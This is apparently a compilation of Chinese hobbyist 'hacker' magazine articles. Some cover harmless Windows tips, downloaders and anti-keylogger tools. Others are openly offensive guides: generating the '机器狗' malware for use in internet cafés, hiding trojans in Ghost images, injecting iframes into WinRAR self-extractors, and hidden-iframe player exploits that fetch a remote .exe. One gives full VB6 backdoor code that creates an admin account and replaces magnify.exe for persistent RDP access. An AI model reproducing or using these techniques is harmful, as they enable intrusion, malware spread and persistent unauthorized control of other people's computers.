所有的电脑安装的都是 Win2000 系统，根本不存在高低版本系统之间的访问等级问题，而且为了操作方便，学生机访问服务器都使用超级用户 Administrator 账户。后来经查证，原来问题出在操作系统的“密码最长存留期”上。打开服务器 K99 的“控制面板”——“管理工具”——“本地安全设置”，在弹出窗口中点击“安全设置”——“账户策略”——“密码策略”，然后双击右侧窗口中的“密码最长存留期”（图2）……

全国计算机等级考试时间间隔是半年，它已经远远超出了这个时间，所以就会出现“此用户的密码已经过期”的提示。找到问题的根源后，解决的方法就简单了：为以后可以方便地进行 .gho 文件的恢复，所以应该将这个 42 天更改为“0 天”，最后确定即可；问题果然迎刃而解。如果大家也碰到过类似的故障，不妨一试。

### 主流相册批量下载

菜鸟们在网上混了这么久都应该有自己的空间吧，为了搞好自己的空间，菜鸟们可是费尽心思，每天都在各个地方“淘宝”。文章、图片都是我们常常 COPY 的对象。别人空间的图片都十分漂亮，难道我们就一张一张地下载吗？这可不是菜鸟的作风，今天我就教大家如何批量下载图片。

### 一、QQ相册

我们打开 QQ 相册下载工具，在“确定”按钮的旁边输入你要下载图片的 QQ 号码，单击“确定”按钮后，就会出现该 QQ 的各个子相册（图1），点击你要下载的相册，然后点鼠标右键，就会出现“下载该相册”，点击它，过了一会儿，就会在你的 QQ 相册下载设定的目录下建立一个以你要下载图片的 QQ 号码为名字的文件夹，而你下载的图片就在这里面了（图2）。

#### 二、百度空间

百度空间由于它的稳定和免费，也是我们常用的空间之一。

打开百度批量下载工具（图3），需要我们输入要下载的空间的用户名。在空间头像下方，有该相册的各个子相册。我们点击它，会在旁边出现该相册里的相片；点击相片，就会在左下方出现该图片的预览图。选择自己喜欢的图片下载，在相片上点右键就可以下载了（图4）。

#### 三、网易相册

网易相册最大的特点就是空间没有容量限制，上传和浏览速度都不错，速度都很快，所以它也是网友常用的相册。我们打开 AlbumCon，这个就是用来下载网易相册的工具。

在相册服务器中选择网易，在下方的用户名里填入要下载的账号，填好后单击“获取目录”，就可以得到该用户的相册信息了（图5）。

我们双击其中一个目录就可以转到图片列表来查看该相册里的图片了。图片缩略图可以在右方看到，AlbumCon 不仅能直接下载，还可以调用迅雷来下载，而且速度非常快（图6）。

现在各位又知道怎么下载图片了吧，看见好的图片一定不要错过，一定要统统搬回“家”哦！

> （本文所涉及到的 QQ 相册快速下载、百度相册下载和 AlbumCon 已收录到光盘中）

### 和我一起 DIY 机器狗

石头

机器狗是个针对网吧的病毒，可以破坏还原系统，下载大量木马，而且可以通过局域网进行传播，一台电脑中招，就能引发整个网络内的电脑全部自动重启。这么厉害的病毒，有人已经编译了代码，公布出了生成器，我们小菜当然不能错过了。

机器狗生成器的使用很简单，运行后在 URL 处填上你所要下载木马的文件列表地址，注意这里是列表地址，不是木马地址，而且这个 URL 的长度不能超过 23 个字节（图1）。

这个列表可以使用 TXT 文本制作，一行是一个木马的下载地址（图2）。输入完后保存文档，把你要下载的木马和列表文件一并上传到空间中去。点击“生成”按钮，提示生成病毒程序 rodog.exe（图3）。至此机器狗病毒就生成完了，你可以带到机房或网吧中使用。

关于机器狗的免疫补丁，现在网上好多都已经失效了，比如绿茶、小增兵版本补丁、康禾科技补丁等。这些补丁因为病毒变异、与其它程序冲突等原因不推荐使用。在光盘中提供了几个最新的免疫补丁供大家使用，小心不要被自己的狗咬到。

> （本文所涉及到的机器狗生成器和免疫补丁已收录到光盘中）

### GHOST 真的安全吗？

10℃誓言

最近电脑感染了机器狗病毒，很是郁闷呀，连影子系统也被它给整废了。由于系统没有备份只好重装，这次我吸取了教训，安装完毕后就进行了 GHOST 备份。看了看光盘里面还有一个 Ghost Explorer，想想这应该是 Ghost 浏览器吧。

使用 Ghost Explorer 打开备份的镜像文件，随便点了几下发现常用的编辑功能都还是有的（图1），刚准备关闭的时候发现怎么还有一个添加的选项（图2）？

那么，能否把木马也弄进去呢，我随便添加了一个东西发现真的可以哟。开始还以为它和 UltraISO 一样编辑文件后保存操作要等很长时间，没想到在几 G 的文件内添加一个东西居然不费吹灰之力。想想就害怕，把一个木马存放到镜像的时间可以忽略，用户肯定是不会察觉的。

在里面编辑注册表添加启动项似乎不太可能，不过 Windows 自带的不是有个启动文件夹吗，把木马放里面就可以了（路径是 `X:\Documents and Settings\All Users\「开始」菜单\程序\启动`），All Users 会比较好些，因为不管用户名是哪个它都会启动的。最好是能够自删除的，不然恢复完系统后细心的用户还是会发现问题的（图3）。

既然这么可怕那有什么办法预防吗？如果我是搞破坏的话，肯定会从 .GHO 之类的镜像文件下手，我们可以尝试着把后缀名改下，比如我改成 XP.txt。

## 傻瓜黑客

改了后缀名，在 GHOST 恢复系统时仍然能正常使用。恢复步骤一样，不过选择镜像文件类型时要选择“Scan for images”，也就是搜索支持类型，马上就会显示 XP.txt（图4、图5）。需要说明的是：镜像文件与后缀名无关，GhostExplorer11 可向下兼容所有的 GHO 镜像文件。其中的任何修改无需保存即可生效，大家一定要谨慎使用呀。（本文所涉及到的 Ghost Explorer 已收录到光盘中）

> 天马行空☆

文档修改愚人术，  
想改谁的就改谁。  
愚人节把 Windows 里的人  
都翻动双翻。

### 触发 Windows 的愚人机关

年晓东

4 月 1 日，伟大的愚人节又要来到了。各位小菜鸟繁忙的研究之余，是不是想在好友的电脑上愚人一把呢？虽然如今网上的愚人工具有很多，但都不符合 DIY 精神。其实我们可以在 Windows 的注册表中稍微动下手脚，就可以触发意料已久、为我们设好的愚人机关了。

在电脑中单击“开始”→“运行”，输入“regedit”打开注册表编辑器，依次找到 `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Nls\Language` 项，分别双击其右侧窗格中的最上面两个项“Default”和“InstallLanguage”，进行值的修改，将原来默认的“0804”修改为愚人节的日期“0401”（图1），两项都要改，然后单击“确定”按钮。

修改完毕后必须重启一下电脑，试一下打开“我的电脑”，再试一下“开始”菜单（图2），当然也包括桌面的状态栏，足不足够让你翻转过来呢？

以上是我在自己的 XP 上做的实验，接着又在虚拟机的 Server 2003 上对修改前后的注册表作同样项，重启后效果也都是一样的（图3）。

### WinRAR 挂马新体验

最近听说 WinRAR 也可以挂马，兴奋不已，研究了一下，下面就和大家分享一下这个简单的过程。问题就在 WinRAR 自解压文件中提示文本增加了对脚本的支持，而又不加以严格的过滤，这就给挂马有了可乘之机。

随便找一个文件，在右键菜单中选择“添加到压缩文件”（图1），再选择“创建自解压格式压缩文件”，切换到“高级”选项，选择“自解压选项”，在弹出的界面中切换到“文本和图标”，在“自解压文件窗口中显示的文本”中输入测试代码：

```html
<script>alert("clzzy!")</script>
```

确定之后，就会生成一个自解压文件，运行之后将错误地执行我们的代码（图3）。

我们再试一个经典的挂马代码。运行之后 WinRAR 就会访问网络，这个连出动作被我的 ZoneAlarm 十分精确地拦截了（图4）；允许其访问后，baidu.com 被成功打开了（图5）。好了，这个简单的挂马我就介绍到这儿，要怎么利用大家就自由发挥吧！

```html
<iframe name="clzzy" src="http://www.baidu.com/" width="200" height="200"></iframe>
```

## Vista 下的 IIS7 的安装与调试

前几天我买了一台联想笔记本电脑，安装了 Vista 操作系统。为了以后查看网站源码方便，我就安装了 IIS，但是在安装过程中却遇到了许多麻烦，因为再也没有原来 XP 中熟悉的属性窗体，取而代之的是一些很陌生的名词和操作方式。经过各方面研究和查找资料，终于将问题解决了。

想到大家可能也会遇到这类问题，甚至还未解决。为了让大家在以后的安装过程中少走弯路，下面我就为大家详细介绍一下 Vista 系统中 IIS 的安装以及调试。

#### 一、安装

首先选择开始菜单中的“计算机”（图1），然后选择“安装或更改程序”（图2）。在“安装或更改程序”中选择“打开或关闭 Windows 功能”，这一系列操作都与 Windows XP 中不太一样。

接着打开“Internet 信息服务”选项，把你想要安装的服务都选上（图3）。特别要注意的是选中“万维网服务”中的“应用程序开发”选项里的 ASP 和 ASP.NET（图4），不然的话 ASP 和 ASP.NET 在默认情况下是不支持的。进行完这一系列操作后，点击“确定”，这时 Vista 就会为你安装 IIS 了。

#### 二、设置

安装完成后，再次进入“控制面板”，选择“管理工具”，再选择“Internet 信息服务（IIS）管理器”（图5），开始对 IIS7 进行相关设置。

- 1. 首先选择“Default Web Site”并双击“ASP”选项（图6），进行开启父目录操作。在 IIS7 中 ASP 父路径是没有启用的，要想方便地使用 ASP，首先就要开启父路径，选择“True”，这一步可搞定父路径选项（图7）。

- 2. 接下来右键单击“Default Web Site”选项，选择“高级设置”。在这里可以对网站的“主目录”“访问端口”等进行相应设置（图8）。

至此，IIS7 的设置就基本完成了。但是这时在 Windows Vista 中只能调试 ASP 程序，还是无法调试 ASP+Access 程序，这是因为 Windows Vista 的目录权限问题。

- 3. 如何对目录权限进行正确设置呢？首先打开（系统安装盘）`C:\Windows\ServiceProfiles\NetworkService\AppData\Local\` 目录，最好手动输入路径，因为 AppData 文件夹是隐藏的。右键单击 Temp 文件夹，选择“属性”（图9），选择“安全”选项，单击“编辑”按钮，进入“编辑权限”对话框，点击“添加”（图10）。在“选择用户或组”的对话框中，在“输入对象名称来选择”的表单中输入以字母 A 开头的名称后，单击“确定”，系统会自动显示所有带有字母 A 的系统用户（图11）。添加完这个用户后，选择添加的用户，单击“完全控制”，然后确定，这样 Temp 的访问权限就设置好了。系统会有安全提示，选择确定就可以了，ASP+Access 可以运行了。

至此，Vista 中 IIS 的安装与调试就结束了，我们已经可以很好地在 Vista 中调试 ASP 代码了。其他设置大家可以根据具体需要进行调整，在此就不再过多介绍。希望大家看了此文后，能够对 IIS7 的设置有所帮助。

### 播放器挂马的艺术

SuperSheep

好多网友都有在线观看电影或听音乐的习惯吧。同时目前的视频分享技术，比如酷6网、六间房、YouTube 等，也把这个习惯带给了更多的人。其实利用播放器漏洞我们也可以获得大……

首先介绍一下这种木马的工作原理……这种方法成功的条件是对方打开了你的页面，并且安装了有漏洞的播放器……

目前大多数播放器均含有漏洞，包括暴风影音、千千静听、RealPlay、Q 播、JetAudio 等。这些漏洞利用器的释放方法其实差不多，主要分为以下两类。

### 一、直接生成 htm 文件

我们以千千静听为例来介绍一下，这也是大家都经常使用的音乐播放器，确实好用。利用工具是专用于千千静听 Exp 的 crt……软件界面很简单，只有一个“木马地址”需要我们填写（图1）。

比如 `http://www.test.com/mm.exe`，填好后点击生成网页……这里只提供一个最常用的挂马方法，其余的可以参考本文相关资料或通过 Google 查找。

```html
<iframe src=地址 width=0 height=0></iframe>
```

```html
<html>
<iframe src="网页地址" height=0 width=0></iframe>
</center>
</html>
```

制作好后我们只需要发布这个页面，当有人访问，并且对方安装了千千静听播放器的话，就会自动安装我们的 `http://www.test.com/nnn.exe`，威力不可小视哟，效果如图3所示。

这类提到的播放器网页木马有很多，常用的还有：暴风影音（图3、图4）；Windows Media Player，微软自带的播放器，功能也很强大（图5）；Qvod，我在写本文时下载量已经达到了 6 亿多次的播放器，可以直接获取 flv 地址，对于视频分享网站十分方便（图6）；JetAudio，一款功能极强的多媒体播放器，外观设计尤为突出（图7）。

#### 二、生成音频或视频文件

这类播放器木马不是生成网页文件，而是生成音频或视频文件，比如 RealPlay 伪马（图8）。木马下载地址我们依然填入 `http://www.test.com/nnn.exe`，页面显示内容部分是网页内嵌脚本内容，可随意编写。

生成的文件包括一个 `html` 和 `smi` 文件，其中起作用的是 `smi` 漏洞文件。我们可以两个文件一起当作挂马使用，也可以单独把 `smi` 当作木马下载器使用（图9）。

`music.htm` 木马的网页核心部分是：`<embed type="audio/x-pn-realaudio-plugin" src="music.smi" height=0 width=0 autostart=true>`，意思是在 IE 中嵌入 `music.smi` 媒体并自动播放，`height` 和 `width` 设为 0 以隐藏。`smi` 文件可伪装改名（如“好看电影.smi”“好听音乐.smi”）诱导用户打开。

另外文中提到一个简单工具，可在其页面输入目标地址后生成挂马代码（图10）。

工具就写这么多了，希望大家以后多关注第三方软件的安全问题，不要以为打了 Windows 补丁就安全了。发现这类挂马工具时，应把相应播放器升级到最新版，或暂时卸载不使用该程序。

## 黑客术语（17）

## 什么是 Cookies？

Cookies 是一种能够让网站服务器把少量数据储存到客户端硬盘或内存，或从客户端硬盘读取数据的技术。当你浏览某网站时，Web 服务器会在你的磁盘上写入一个很小的文本文件，可记录用户 ID、密码、浏览过的网页、停留时间等。下次访问时，网站可读取 Cookies 并据此提供个性化功能，如欢迎标语、免重复登录等。

### 让你的键盘不再成为“泄密之源”

现在的网络安全形势不容乐观，各种病毒、木马、间谍软件等恶意程序活动很频繁，窃密手段也日益复杂。往往在你不经意间，你的 QQ 密码、网游密码，甚至你的银行账号和密码等机密信息，就可能会落入窃密者之手。网络窃密者使用你的相关密码信息，可以轻松获得非法利益，同时也会给你带来不应有的损失。

恶意程序之所以能轻易盗窃你的机密数据，关键是其使用了键盘记录技术：当你在使用键盘输入重要数据时，这些恶意程序在后台悄悄记录下你的键盘动作，然后发送给窃密者。因此，及时发现并清除潜伏在系统中的键盘窃密程序，可以有效保护你的数据安全。实际上，几乎所有木马程序都提供了键盘记录功能，只要检测到键盘窃密程序的行踪，就可以顺藤摸瓜将木马程序彻底清除。

花的神明

### 一、使用 ID AntiKeylogger 保护键盘操作

ID AntiKeylogger 安装后，会将自身注册成名为“Anti Keylogger”的系统服务（可删除系统自动运行项）。通过对内存进行扫描，可以发现隐藏很深的键盘记录程序；它可以阻止可疑程序捕获键盘输入、记录剪切板数据、探测窗口文本内容等操作。

ID AntiKeylogger 的使用方法简单：在系统托盘中的 ID AntiKeylogger 图标右键菜单中点击“Check Memory”项，ID AntiKeylogger 即可对内存中所有进程进行检测。然后点击右键菜单的“KeyLogger List”项，在打开的窗口中显示所有和键盘记录相关的程序（图1）。

其中有些程序是正常的，通过仔细检测可以很容易发现来历不明的程序。以 PC Spy Keylogger 为例，这是一款功能强大的键盘记录程序。ID AntiKeylogger 可以很容易将其检测出来，在上述列表中可发现其行踪，其对应程序路径是 `c:\program files\psk\toolkeylogger.dll`。选中可疑程序项，在窗口底部显示其调用的钩子函数、检测时间、活动状态等数据。

如何禁止可疑程序活动呢？在其右键菜单中点击“Disable”项，ID AntiKeylogger 即可将其设为禁用状态，该程序就无法继续拦截键盘操作了。之后最好重新启动系统，让可疑程序彻底失去活力。对于正常程序，可以在其右键菜单中点击“Forget”项，使其从列表中消失，这样可以避免过多程序干扰分析工作。

### 二、使用 Anti-keylogger 保护键盘操作

Anti-keylogger 运行后将自身隐藏在系统托盘中，之后即可对系统进行全面监控，探测可疑键盘记录程序。Anti-keylogger 采用双进程保护模式，可以有效抗击可疑程序对其的非法关闭操作。当 Anti-keylogger 发现可疑程序试图拦截键盘输入时，即可自动对其拦截，同时在屏幕右下角弹出提示面板。

双击 Anti-keylogger 图标打开管理窗口（图2），在窗口左上角显示一个不断转动的雷达图标，表示其处于监控之中；如果点击“Stop”按钮，表示停止监控操作。在窗口左侧点击“Protection policy”按钮，在右侧窗口的“Auto-detected modules”面板中显示所有检测到的键盘记录程序。直接点击对应程序项目，可以使其在激活和禁止之间切换；当其显示图标为红色叉号时，表示其处于禁用状态，这样该程序就无法执行键盘拦截操作了。

为了防止 Anti-keylogger 检测正常程序，可以在“White list”面板中点击“Add”按钮，添加对应程序，这样白名单中的程序可以排除在 Anti-keylogger 监控之外。在窗口左侧点击“Options”项，在右侧窗口“Advanced”面板中勾选“Switch the Clipboard protection on”项，表示启用剪切板保护功能。勾选“Use password protection”项，可以输入管理密码，避免其他人随意更改 Anti-keylogger 配置。

### 三、使用 Keylogger Detector 保护键盘操作

Keylogger Detector 是一款体积小巧的安全软件。运行后可以对所有进程进行扫描，检测所有设置键盘钩子的进程。在其主窗口的“Process List”列表中列出所有相关进程信息，包括安全标志、PID、键盘钩子、程序路径、进程描述等内容（图3）。在工具栏上点击“Refresh”按钮，可以刷新该列表。

Keylogger Detector 可以判断进程安全级别：在对应进程的“Flag”列中显示绿色图标，表示该进程是安全进程；对于可疑进程，会在其“Flag”列中显示灰色图标。选中对应进程，在“Process Information”面板中显示其详细信息，在“Module List”面板中显示其所包含的所有模块。根据以上信息，可以很容易发现潜伏在内存中的可疑程序。在“Process List”列表中选中可疑进程，在其右键菜单中点击“Stop Process”项，可以中止该进程。

### 四、使用 Anti-Keylogger Elite 保护键盘操作

Anti-Keylogger Elite 使用的是基于规则的保护模式。在其主窗口中点击菜单“Window”→“Options”项，在设置面板中勾选“Load Anti-Keylogger Elite at Windows Startup”项，可以让其随系统启动（图4）。勾选“Show balloon tip notification”项，表示当 Anti-Keylogger Elite 检测到可疑程序活动时，会在屏幕右下角弹出提示框，提醒用户该可疑程序试图安装键盘钩子。

在“Block”栏中选择“Ask User”项，表示当前检测到相关程序尝试设置键盘钩子时，就会弹出询问窗口，让用户决定是否放行。选择“BLOCK ALL - except Microsoft certificate OS files”项，表示除了系统核心进程外，Anti-Keylogger Elite 将自动拦截所有和键盘记录相关的程序；选择“BLOCK ALL - for high security environments”项，表示采用安全级别较高的拦截方法。这里以“Ask User”为例说明。

为了防止别人随意更改 Anti-Keylogger Elite 配置，可以勾选“Load Password protection”项，点击“Change user name and password”按钮，为其设置管理密码。Anti-Keylogger Elite 还提供了软键盘功能，按下“Ctrl+Alt+K”组合键可以调出软键盘。当使用软键盘输入数据时，可疑程序就无法记录键盘动作了；在“Secure Keyboard Hot Key”中可以更改软键盘激活热键。

当 Anti-Keylogger Elite 检测到可疑程序活动时，即可弹出询问窗口（图5）。“Program”栏中显示程序路径，“Description”栏中显示该程序描述信息。对于正常程序，点击“Allow”放行；对于非法程序，最好点击“Deny”按钮进行拦截。如果勾选“Don’t ask again”项，表示以后对该程序执行同样操作。

当操作完成后，Anti-Keylogger Elite 会自动为该程序创建规则，这样你可以针对不同程序分别创建检测规则。点击菜单“Window”→“Modules”项，在弹出窗口中显示所有规则项（图6）。对于 Windows 核心进程，可以在其左侧显示特殊标记。在规则表右键菜单中选择“View”→“Style”→“Style I”，可以打开列表的全部显示列，包括 Keylogger、Password thief、Screen shooter、Clipboard logger 等。Anti-Keylogger Elite 不仅可以检测对应程序的键盘记录动作，还可以判断和拦截其破解星号密码、屏幕抓屏、窃取剪切板数据等操作。作。在程序列表中双击某个程序，打开规则修改窗口，在“Threat”面板能够设定该程序所属的规则（图7），你可以对该程序的“Keylogger”（键盘记录）、“Password Thief”（破解邮箱号的密码规则）、“Screen Shooter”（抓屏操作）、“Clipboard Logger”（记录剪贴板）等规则进行配置，在对应规则右侧的“Action”列表中可以为选定的规则指定监控动作，包括“Allow Always”（总是允许）、“Block Always”（总是阻止）、“Ask User Always”（弹出询问窗口）等权限。

## 五、用KeyScrambler为浏览器设置键盘保护功能

当你在浏览器中打开邮箱、论坛、在线银行等登录网页时，最担心的事情就是潜伏在系统中的可疑程序拦截你在IE窗口中的输入信息，使用KeyScrambler这款独特的浏览器插件，就可以为浏览器装上键盘输入保护器，让可疑软件无法探测你在IE中的输入内容。KeyScrambler同时支持IE和FireFox浏览器。它运行在键盘驱动层面上，可以在系统底层加密你的键盘输入信息，使可疑软件使用的键盘钩子彻底失效。当你在IE中输入数据时，IEKeyScrambler立即对其进行加密处理，随后将加密后的信息传送到IE中，因此可疑程序只能记录一堆无法识别的字符。当加密后的数据在IE中执行提交操作时，KeyScrambler即可对加密信息进行解密处理，这样点击提交按钮后，IE即可将正常的登录信息发送给远程服务器了。KeyScrambler安装需要重新启动系统，之后当启动浏览器后，即可自动激活IEKeyScrambler。在系统托盘的KeyScrambler图标的右键菜单中点击“KeyScrambler On”项，表示激活其键盘保护，点击“KeyScrambler Off”项，表示取消其保护功能。点击“Options”菜单项，在设置窗口中的“Settings”面板中勾选“Protect Login Data”项（图8），表示可以保护在网页中输入的登录信息，如果使用的是专业版的话，勾选“Protect All Data”项，表示保护在网页中输入的任何信息。在“On/Off Hot Key”栏中可以设置激活/关闭热键（默认为“Ctrl + Shift + K”）。在“Status Display Options”面板中设置KeyScrambler的状态显示功能，在默认情况下，当打开登录网页时，会在网页左上角显示KeyScrambler的保护信息。


（本文所涉及到的ID AntiKeylogger、Anti-keylogger、Keylogger Detector、Anti-Keylogger Elite和KeyScrambler已收录到光盘中）

### 在局域网中轻松共享鼠标键盘

现在很多单位和家庭都组建了局域网，我们可以充分地利用资源共享带来的种种便利。按照一般的共享观点，硬盘可以共享、打印机可以共享，甚至电视卡也可以共享。但是对于键盘和鼠标也能共享，知道和使用的人就不多了。Input Director就是一款能够让使用者仅用一套键盘鼠标，就同时操控多部计算机的免费工具软件，在设定好从属关系后，就能够通过一套键盘鼠标来操控多台电脑的屏幕，这样特殊的操控方式，对于拥有笔记本电脑用户来说尤其方便，我们可以在笔记本电脑和台式电脑上同时安装，并设置好两者的从属关系，这样就能够利用笔记本电脑来同时操控所有的电脑了。


### 一、配置客户端Input Director

首先在客户端上安装和运行Input Director，在系统托盘中双击“Input Director”图标，切换到设置窗口中的“Slave Configuration”面板（图1）。“Allow any computer to take control”项，表示允许局域网中任何一台电脑控制本机，建议选择“Allow only the computer listed below to take control”项，表示只允许指定的主机控制本机。点击“Add”按钮，在弹出窗口中输入主控机的名称或者IP即可。当然，可以同时添加多台主机，让多台主机都可以遥控本机。之后在“Main”面板中点击“Enable as Slave”按钮（图2），将本机设置为被控端。此外，可以点击“Set Hotkey”按钮，为本机设置返回激活热键，这样当在其他主机上通过键盘鼠标操作本机屏幕时，可以直接点击该热键，快速切换到主控机原始屏幕上。在“Preferences”面板中勾选“Run Input Director on Startup”项，表示让Input Director跟随系统启动，在“On Start”栏中选择“Input Director is enabled as a Slave”项，表示自动设置本机为客户端。这样就避免了繁琐的手工设置。


### 二、配置主控端Input Director

当添加了客户端后，主控机即可与之进行联系。如果连接正常，在“Slave Systems”列表对应客户端的“Status/Name”列可见状态标记（图5），说明两者已建立可靠连接。若在“Skip”列中设置选择标记，表示主控机可通过将鼠标移动到屏幕边缘的方式实现客户端屏幕切换。

添加多个客户端后，可在“Master Configuration”面板上方通过拖动图标调整位置。“Master System”表示主控机，其余为客户端。例如将名为“bob”的客户端拖到主控机左侧，则在主控机上将鼠标移出屏幕左边缘时，即切换到“bob”客户端（图6）。

列表中显示所有客户端信息（图3）。点击“Add”按钮，在弹出窗口中于“Hostname”输入客户端名称或IP（图4），在“Port”中设定连接端口（默认31324）。点击“Set Hotkey”可设置快捷切换键，便于在主控机上快速切换至对应客户端。

在Input Director的“Preferences”中可修改“TCP/IP Listen Port”，主控与客户端端口需一致。勾选“Shared Clipboard”可启用剪贴板共享，实现多机间复制粘贴内容同步。

### Autologon 让你自动登录 Vista

Vista系统出于安全考虑，默认每次登录都要求输入用户名和密码。若希望开机后直接进入系统，可使用Autologon工具实现自动登录，并可随时开启或取消该功能。

#### 一、Autologon 简介

Autologon体积小（约39KB），可设置指定用户名/密码自动登录Vista。其原理是在注册表写入账户与登录信息，控制是否显示登录界面及默认登录账号。

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
AutoAdminLogon
defaultDomainName
defaultUserName
defaultPassword
```

#### 二、操作方法

双击运行Autologon.exe，在“Username”输入要自动登录的用户名（如liacl），并填写域与密码后启用自动登录。


“Password:”栏输入登录密码（图1），“Domain:”栏将显示电脑当前所在网络域名，建议不要更改该数值。最后按右侧的“Enable”按钮。下次开机后，就能以liacl账户自动登录Vista系统了。如果要取消自动登录功能，按右侧的“Disable”按钮即可。

“Domain:”栏要求你输入电脑当前所在网络的域名，如果你的电脑是单机使用，没有联入任何局域网，那么此处应输入“完整的计算机名称”或空白，建议此处不用输入任何数值，使用软件自动显示的数值即可。在桌面上右击“我的电脑”，选择“属性”菜单，点“计算机名”能看到当前电脑的“完整的计算机名称”（图2）。

Autologon还可以在CMD命令提示符下使用。在Vista中进入CMD命令提示符，使用CD命令进入Autologon安装目录，然后输入`autologon /?`命令显示其用法，会弹出一个对话框，提示Autologon的语法格式是`Autologon <username> <domain> <password>`（图3）。例如我们要让电脑启动后以liacl账户、密码2007、局域网域名ZLSGS自动登录Vista系统，就输入以下命令`autologon liacl ZLSGS 2007`。

（本文所涉及到的Autologon已收录到光盘中）

## 替换放大镜，添加无敌3389账户

无敌小龙

小菜们在入侵提权成功后，通常都会选择留下一个3389后门，但是伴随着网络管理员安全意识的提高，这些3389账户通常都会被他们删除，那么下次我们就无法再次登录了。现在，我就介绍一个方法，让广大叉子在每次远程登录时，都能重新添加一个账户。这样，就算管理员把我们留在系统中的账号删除掉，下次也可以进入系统！下面就分三个步骤实现这个功能。

#### 一、编写后门

首先，我们需要编写一个后门，作用就是添加一个用户并且把他设置成管理员。这里使用VB6来编写一个这样的小程序，程序界面很简单，如图1。


双击窗体，来到代码编辑窗口，输入如下代码：

```
Private Sub Form_Load()
    Open "c:\adduser.bat" For Output As #1
        Print #1, "net user xiaolong 123456 /add"
        Print #1, vbCrLf
        Print #1, "net localgroup administrators xiaolong /add"
    Close

    Shell "c:\adduser.bat", vbHide
End Sub

Private Sub Form_Unload(Cancel As Integer)
    Kill "c:\adduser.bat"
End Sub
```

这段代码的作用就是程序载入时，把添加用户的批处理命令写入“c:\adduser.bat”文件，然后运行这个批处理文件。同时，在程序关闭时就删除“c:\adduser.bat”文件。

在编写完代码后，选择“文件”菜单中的“生成EXE”命令，然后把生成的VB可执行文件的文件名修改为magnify.exe（系统放大镜的文件名）。


#### 二、替换系统文件

在上面已经编写好了后门文件，现在登录3389，来到远程服务端的“C:\WINDOWS\system32”目录下，复制VB生成的EXE文件（已经修改文件名为magnify.exe）到这里，如图2。在资源管理器中，选择工具菜单中的“文件夹选项”，修改文件夹属性如图3所示，也就是显示所有的文件和文件夹（Windows默认不显示dllcache目录）。现在，来到“C:\WINDOWS\system32\dllcache”目录，同时把VB生成的EXE文件复制到这里，如图4。注意，先覆盖dllcache下的magnify.exe文件，然后覆盖system32目录下的magnify.exe，这样替换的成功率比较高，可以有效避免Windows的系统文件恢复功能。

### 小知识：Dllcache目录

Windows下有个“系统文件检测”程序，这个程序的作用就是检测系统文件，如果检测到受保护的文件已经被不正确的文件覆盖，它就从系统文件备份（就是dllcache）中提取正确的系统文件，替换不正确的文件。dllcache目录中就保存了这些系统文件。

### 三、登录3389后门

经过前面后门的编写和替换后，现在我们已经打造好了这个完整后门了。下次在登录时就可以同时按下Win+U组合键（这个组合键默认是“辅助工具管理器”），调出自己的添加用户后门。具体的用法为：首先登录3389，如图5。同时按下Win+U后，就会出现“辅助工具管理器”，如图6。


选择其中的“启动”按钮，可以看到我们的后门已经运行了。默认是调用放大镜程序的，因为前面放大镜程序已经被我们成功替换成这个后门文件，所以这里会调出后门。


登录3389肉鸡后，在CMD下输入`net user`命令，会看到多了一个名为“xiaolong”的用户，因为我们的后门文件已经执行了。现在，就可以使用这个账户登录3389肉鸡了。就算这个账户被管理员删除了也无所谓！因为，下次当我们登录3389时，可以再次使用“Win+U组合键”生成一个名为“xiaolong”的管理员用户。


注意，一般第一次同时按下“Win+U”后，会出现“Windows文件保护”对话框，不用管它，直接选择取消就可以，如图9。


（本文所涉及到的VB程序已收录到杂志论坛中）

## 优酷、56、土豆等在线视频下载指南 down

目前的在线视频网站越来越多，想下载怎么办呢？我总结了三个方法，小菜们要好好学习哦。主要是针对FLV视频的，什么是FLV视频呢？就是土豆网、六间房、56、mofile、youtube等视频网站播放的流媒体。其它诸如WMV、MPG等格式，我就稍微讲一下。如果是WMP视频，右击视频——属性，就可以查看到真实视频地址；如果是Real视频，右击视频——使用Real Player播放，然后在本地打开RealPlayer，依次选择文件→剪辑信息→编辑剪辑属性，就可以看到真实地址了。

（IE-->工具-->INTERNET选项-->设置-->查看文件）里了。点击查看文件后会出来一堆乱七八糟的文件列表，通过按大小/时间/文件类型，后缀为FLV的就是视频文件了，把这些FLV文件随便复制出来就行了。要注意，有时候下载下来的是一个叫gct_video的无后缀文件，我们要自己手动把它改名为xxx.flv（记着不要隐藏已知扩展名），如图1。FLV可以使用暴风影音或者KMPlayer播放，FLV转换成其它常见视频格式的软件待会我告诉大家。

#### 第一种：利用临时文件夹

这种方法对于大部分网站都非常有用，相信有很多人都知道吧。不过我还是整理了一下。首先你得耐着性子把整个片子在线看一遍，一定要看完哦。也可以打开多个窗口，就是下载吧。在观看的时候这个视频文件已经下载到你的临时文件夹里了。

### 第二种：利用软件，我给大家推荐三款软件。

- 1. 维棠FLV视频下载软件，下载地址：http://www.vidown.cn/  
  维棠FLV视频下载软件主要针对播客网的FLV视频文件而开发，对于其它格式的视频文件的探测力度显得不够。采用了地址复制方式，并不支持在浏览过程中的实时监控探测，等待探测的播客地址复制到“视频地址”框，然后定义好下载路径，就可以开始分析下载了，如图2。
- 2. Project URL Snooper，其下载地址为 http://www.skycn.com/soft/8770.html。  
  Project URL Snooper实施流媒体抓取的先后步骤比较重要，先打开此软件并启动探测，然后打开需要抓取流媒体的页面，再复制网址实施下载。在“常规选项”下，从“网络侦测选项”下拉菜单中选择其唯一的选项即可完成配置，因为是实施的网络搜索，所以还得将“搜索的目录”下的勾选取消。然后返回“搜索”选项，单击“侦测网络”按钮，接着打开待抓取流媒体页面，即可开始实时探测，稍等之后即可从下边的预览框中看到搜索结果。
- 3. 网络嗅探器（影音神探），其下载地址为 http://www.greendown.cn/soft/1787.html。  
  在使用之初，网络嗅探器（影音神探）需要事先设置，主要是定义本机网卡连接，以及定义待搜索流媒体文件的格式，这样有助于更快速地搜索到需要的文件。


图1

而通常情况下，用户计算机都只有一块网卡，软件会自动识别；唯一要做的就是尽量缩小探测范围，即设置待搜索的视频文件格式。设置完成后，返回探测界面单击“开始嗅探”按钮，然后再打开所要找地址的网站，软件就会在地址列表框显示找到的地址。对于视频文件类型，网络嗅探器（影音神探）会在搜索结果中用红色字体高亮显示。需要注意的是，一定要先启动软件的探测功能，然后再打开待寻找地址的网站，这样才能成功。对于寻找到的视频地址，网络嗅探器（影音神探）提供了复制地址，需使用相应的下载软件才能实现下载。

